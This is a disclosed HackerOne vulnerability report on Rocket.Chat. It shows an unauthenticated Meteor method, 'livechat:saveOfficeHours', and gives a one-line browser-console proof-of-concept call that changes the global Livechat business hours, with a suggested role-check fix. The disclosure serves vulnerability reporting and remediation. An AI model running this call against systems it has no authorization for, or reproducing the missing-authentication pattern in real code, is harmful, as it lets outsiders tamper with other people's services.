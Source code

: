 # Unauthenticated clients can modify Livechat Business Hours

## Report Details
- **Report ID**: 1063164
- **URL**: https://hackerone.com/reports/1063164
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-21T01:30:35.237Z
- **Disclosed**: 2024-08-10T21:58:32.602Z

## Reporter
- **Username**: gronke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** Missing authentication of the `livechat:saveOfficeHours` Meteor.method allows unauthenticated clients set global Livechat Business Hours.

**Description:**

The Meteor Method `livechat:saveOfficeHours` directly forwards user inputs to the database model without authenticating the client:

```javascript
Meteor.methods({
	'livechat:saveOfficeHours'(day, start, finish, open) {
		console.log('Method "livechat:saveOfficeHour" is deprecated and will be removed after v4.0.0');
		LivechatBusinessHours.updateDayOfGlobalBusinessHour({
			day,
			start,
			finish,
			open,
		});
	},
});
```

## Releases Affected:

  * 3.9.3 / develop

## Steps To Reproduce (from initial installation to vulnerability):

1.) Open Rocket.Chat in a Browser
2.) Open Web Inspector
3.) Execute Meteor.call

```javascript
Meteor.call(
  'livechat:saveOfficeHours',
  'Monday', // day
  '00:23', // start
  '00:42', // finish
  true // open
);
```

## Suggested mitigation

  * Require a user role to edit livechat hours

## Impact

Unauthenticated clients can configure the Livechat Business Hours by calling a Meteor Method.

## Attachments
No attachments
